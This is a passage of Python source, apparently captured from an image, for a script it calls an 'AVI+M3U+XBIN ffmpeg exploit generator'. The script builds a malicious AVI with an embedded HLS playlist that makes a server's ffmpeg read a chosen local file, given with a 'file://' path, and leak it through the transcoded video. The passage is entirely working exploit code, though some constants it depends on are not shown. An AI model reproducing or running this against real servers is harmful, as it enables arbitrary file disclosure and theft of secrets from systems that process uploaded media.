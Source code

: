 ```python  

test_xbin_sync(gen_xbin_sync())

SYNC = echo_seq(gen_xbin_sync())


def make_playlist_avi(playlist, fake_packets=1000, fake_packet_len=3):
    content = b'GAB2\x00\x02\x00' + b'\x00' * 10 + playlist.encode('ascii')
    packet = b'00tx' + struct.pack('<I', len(content)) + content
    dcpkt = b'00dc' + struct.pack('<I',
                                  fake_packet_len) + b'\x00' * fake_packet_len
    return AVI_HEADER + packet + dcpkt * fake_packets


def gen_xbin_packet_header(size):
    return bytes([0] * 9 + [1] + [0] * 4 + [128 + size - 1, 10])


def gen_xbin_packet_playlist(filename, offset, packet_size):
    result = []
    while packet_size > 0:
        packet_size -= 16
        assert packet_size > 0
        part_size = min(packet_size, 64)
        packet_size -= part_size
        result.append(echo_block(gen_xbin_packet_header(part_size)))
        result.append(
            EXTERNAL_REFERENCE_PLAYLIST.format(
                size=part_size,
                offset=offset,
                filename=filename))
        offset += part_size
    return ''.join(result), offset


def gen_xbin_playlist(filename_to_read):
    pls = [echo_block(XBIN_HEADER)]
    next_delta = 5
    for max_offs, filename in (
            (5000, filename_to_read), (500, "file:///dev/zero")):
        offset = 0
        while offset < max_offs:
            for _ in range(10):
                pls_part, new_offset = gen_xbin_packet_playlist(
                    filename, offset, 0xf0 - next_delta)
                pls.append(pls_part)
                next_delta = 0
            offset = new_offset
        pls.append(SYNC)
    return FULL_PLAYLIST.format(content=''.join(pls), rand=''.join(
        random.choice(string.ascii_lowercase) for i in range(30)))


if __name__ == "__main__":
    parser = argparse.ArgumentParser('AVI+M3U+XBIN ffmpeg exploit generator')
    parser.add_argument(
        'filename',
        help='filename to be read from the server (prefix it with "file://")')
    parser.add_argument('output_avi', help='where to save the avi')
    args = parser.parse_args()
    assert '://' in args.filename, "ffmpeg needs explicit proto (forgot file://?)"
    content = gen_xbin_playlist(args.filename)
    avi = make_playlist_avi(content)
```
